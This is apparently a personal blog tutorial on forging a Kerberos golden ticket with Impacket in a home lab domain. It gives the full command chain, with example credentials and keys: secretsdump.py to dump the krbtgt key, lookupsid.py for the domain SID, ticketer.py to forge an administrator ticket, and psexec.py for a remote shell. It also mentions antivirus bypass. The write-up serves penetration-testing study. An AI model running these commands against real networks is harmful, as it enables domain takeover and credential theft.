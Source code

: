 ```yaml
---
layout: post
title: Golden Ticket Attacks using Impacket
---
```


After playing about with Mimikatz for a bit and looking at a few options to bypass the anti virus, I decided a different tool might make more sense.
Impacket contains a number of tools that can be used to obtain the krbtg hash and the domain SID, create a golden ticket offline and then obtain a shell using the Kerberos ticket.

Notes - credentials are needed to run these commands on the domain controller. These can be obtained by cracking NTLM hashes  or running a MITM6 attack.

<h6>Use secretsdump.py to obtain the aes256 key for the krbtgt account</h6>

  	secretsdump.py <domain>/<user>:<password> <dc-ip>

  	secretsdump.py home.local/TaMBSZZkfd:'?^kigXF?oG,y{o='@10.0.2.250

<h6>Use lookupsid.py to find the domain SID</h6>

  	Lookupsid.py <domain>/<user>:<password> <dc-ip>
   
  	Lookupsid.py home.local/TaMBSZZkfd:'?^kigXF?oG,y{o='@10.0.2.250

<h6>Use ticketer.py to create TGT</h6>

	ticketer.py -aes <aes-256> -domain-sid <SID> -domain <domain> -user-id <500> username
 
	ticketer.py -aes 5735dd8eaf424d966ef640d4056e2eb90310345d58b074103444483bdf736861 -domain-sid S-1-5-21-536825828-3248286720-2276939788 -domain home.local -user-id 500 administrator

<h6>Export KRB5CCNAME to created ticket location</h6>

	export KRB5CCNAME=/home/kali/Documents/administrator.ccache

<h6>Use psexec to obtain a shell on any machine in the domain</h6>

	psexec.py <domain>/<user>@<hostname>.<fqdn> -no-pass -k
  psexec.py home.local/administrator@TargetPC.home.local -no-pass -k
